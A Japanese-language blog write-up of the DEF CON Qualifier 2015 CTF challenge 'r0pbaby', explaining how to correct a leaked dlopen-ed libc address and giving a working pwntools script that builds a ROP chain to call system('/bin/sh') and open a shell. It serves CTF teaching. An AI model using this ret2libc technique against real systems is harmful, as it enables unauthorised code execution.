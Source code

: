 ```yaml
---
layout: post
alias: "/blog/2016/01/07/defcon-qualifier-ctf-2015-r0pbaby/"
title: "DEF CON Qualifier 2015: r0pbaby"
date: 2016-01-07T00:49:08+09:00
tags: [ "ctf", "writeup", "pwn", "rop" ]
---
```


## [Baby's First 1: r0pbaby](https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/babys-first/r0pbaby)

>   r0pbaby\_542ee6516410709a1421141501f03760.quals.shallweplayaga.me:10436 [Download]()

起動すると以下のようにmenuが現れ色々と親切にしてくれる問題。
ただしその分asmは読みにくい。

``` sh
$ ./r0pbaby

Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 1
libc.so.6: 0x00007EFE0BB324D0
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 2
Enter symbol: system
Symbol system: 0x00007EFE0B3DA890
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 3
Enter bytes to send (max 1024): 8
DDDDDDDD4
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Exiting.
```

ただし、表示されるのは中で`dlopen`をして得られた`libc.so.6`のアドレスであるため、これの上に飛ぼうとするとsegvする。
`dlopen`されたlibcと本来のlibcのアドレスの差は固定のようなので、これを元に本来のlibcのアドレスを求める。

`libc.so.6`が与えられない[^1]が、おそらくこれは表示させたシンボルのアドレスから[libcdb.com](http://libcdb.com/)などでlibcを検索すればよい。
手元で動かしたものから検索しても引っかからなかったが、これはosがarchであるから登録がなされていないのだとして無視した。[^2]

``` python
#!/usr/bin/env python2
from pwn import * # https://github.com/Gallopsled/pwntools/tree/2.2/pwnlib

context.log_level = 'debug'
# p = process('./r0pbaby')
p = remote('localhost', 8022)

p.sendlineafter(': ', '1')
p.recvuntil(': ')

offset = 0x7974d0 # difference between dlopen-ed libc and original libc, from (attached) gdb
libc = int(p.recvline(keepends=False), 16) - offset

# on my /usr/lib/libc.so.6
pop_rdi_ret = 0x21012
system = 0x3f890
bin_sh = 0x1653b8

payload = ''
payload += p64(0) # pop ebp
payload += p64(libc + pop_rdi_ret) # ret
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendlineafter(': ', '3')
p.sendlineafter(': ', str(len(payload)))
p.send(payload)

p.sendline('4')

p.sendline('ls')
p.interactive()
```

[^1]: ように見える
[^2]: 詳しくないので正直少し不安
